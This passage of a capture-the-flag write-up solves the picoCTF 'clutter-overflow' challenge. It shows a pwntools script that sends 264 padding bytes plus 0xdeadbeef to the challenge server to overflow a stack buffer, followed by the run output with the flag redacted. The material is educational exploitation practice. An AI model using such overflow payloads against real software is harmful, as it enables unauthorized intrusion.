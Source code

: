 Since I don't have a `flag.txt` in my local directory there is an error, but otherwise it works fine.

### Get the flag

Let's modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mars.picoctf.net'
PORT = 31890

io = remote(SERVER, PORT)

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 264
padding = b'A'

goal = p64(0xdeadbeef)
payload = padding*offset + goal
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Binary_Exploitation/clutter-overflow]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py          
[+] Opening connection to mars.picoctf.net on port 31890: Done
[+] Receiving all data: Done (1.51KB)
[*] Closed connection to mars.picoctf.net port 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{<REDACTED>}
```

